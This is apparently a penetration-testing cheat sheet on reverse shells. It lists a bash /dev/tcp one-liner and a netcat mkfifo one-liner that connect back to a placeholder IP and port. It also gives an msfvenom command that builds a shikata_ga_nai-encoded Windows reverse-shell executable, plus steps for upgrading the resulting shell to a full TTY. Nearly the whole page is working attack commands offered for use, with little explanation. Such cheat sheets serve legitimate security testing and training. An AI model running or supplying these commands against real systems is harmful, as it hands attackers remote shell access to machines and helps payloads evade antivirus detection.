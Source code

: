 # Reverse Shell

## One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

#### Netcat

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <port> >/tmp/f
```

Sometimes one one-liner won't work, but another will. Two great cheatsheets are [pentestmonkey ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)and [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

## Generate Payload

### Msfvenom

#### Windows reverse shell with encoder

```text
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=<Your IP> LPORT=<Listening Port> -f exe -o <Shell Name>.exe
```

## Shell Cushions

If the reverse shell is terminal-based some measures can be taken to make it more comfortable to use.

### Spawn TTY

#### Python

```text
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

[Additional](https://netsec.ws/?p=337) ways to spawn TTY.

### Auto-Completion

Background the process with Ctrl+z.

Execute this to disable echoing and send I/O straight through without processing.

```text
stty raw -echo
```

return to the process with fg + Enter x2.

[Additional cushions](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).



